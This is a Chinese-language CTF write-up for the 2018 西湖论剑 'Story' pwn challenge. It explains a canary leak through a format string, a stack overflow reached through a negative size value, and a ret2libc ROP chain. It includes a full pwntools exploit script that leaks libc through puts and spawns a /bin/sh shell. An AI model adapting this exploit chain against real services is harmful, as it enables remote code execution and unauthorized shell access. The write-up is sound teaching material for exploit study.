





---

---

# Story

西湖论剑2018  Stack_overflow  ROP  


## 分析

首先，判断程序的保护。发现栈上有Canary，尝试泄露。



**第一个洞：格式化字符串。**在静态分析中看到格式化字符串，尝试通过格式化字符串进行泄露。通过搭配gdb，确定Canary的位置（64位的优先级与32位不同，64位会优先考虑6个寄存器，随后再对栈进行考虑。）为第23个参数，因此通过 %23$p 泄露Canary的位置。



**第二个洞：栈溢出。**在输入“输入字符串长度”之后，如果申请的空间小于128，会自动给开1024大小。然后读取字符串到s中，而s在栈中的位置为0x90，因此通过构造字符串可触发栈溢出。而之前通过格式化字符串获取到了Canary的大小，可以在这里用到。







因此，我们需要覆盖
$$
0x90-0x8=0x88
$$
个A至Canary，然后将之前泄露的Canary值覆盖至此，然后通过8个字符A覆盖返回值，之后即可控制下一步执行的函数。

通过ROPgadget找到其中的ROP关键字

```assembly
pop rdi ; ret
```

来将函数参数入寄存器。

通过调用put函数将got表中的put输出，即可获取put的实际位置，从而计算出libc的偏移。在触发之后，通过ret到main函数地址来重新触发栈溢出，通过偏移计算出system和/bin/sh的地址，获取权限。


## EXP

```python
import pwn
from pwn import *

p = process('./story')
#p = remote('ctf3.linkedbyx.com',11375)
context.log_level = 'debug'
context.endian = 'little'

elf = ELF('./story')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

payload1 = '%23$p'
payload2 = '-1024'

puts_plt = elf.symbols["puts"]
puts_got = elf.got["puts"]
start_main = 0x400876
rdi = 0x400bd3 #pop rdi ; ret

p.recvuntil("Please Tell Your ID:")
p.sendline(payload1)
p.recvuntil("Hello ")
canary = int(p.recvuntil("\n"),16)
print hex(canary)
print hex(puts_plt)
print hex(puts_got)
print hex(rdi)

p.recvuntil("Tell me the size of your story:\n")
p.sendline(payload2)

p.recvuntil("You can speak your story:\n")

payload3 = "A" * 136
payload3 += p64(canary)
payload3 += "A" * 8
payload3 += p64(rdi)
payload3 += p64(puts_got)
payload3 += p64(puts_plt) 
payload3 += p64(start_main)

p.sendline(payload3)


data =  p.recvuntil("\n", drop=True)
puts = u64(data.ljust(8,'\x00'))
print hex(puts)
print puts

system_addr = puts-libc.symbols["puts"]+libc.symbols["system"]

print hex(system_addr)

p.recvuntil("Please Tell Your ID:")
p.sendline(payload1)

p.recvuntil("Tell me the size of your story:\n")
p.sendline(payload2)

binsh = next(libc.search('/bin/sh'))
binsh_addr = puts-libc.symbols["puts"]+binsh
print hex(binsh_addr)
payload4 = "A" * 136
payload4 += p64(canary)
payload4 += "A" * 8
payload4 += p64(rdi)
payload4 += p64(binsh_addr)
payload4 += p64(system_addr)

p.recvuntil("You can speak your story:\n")
p.sendline(payload4)


p.interactive()

```

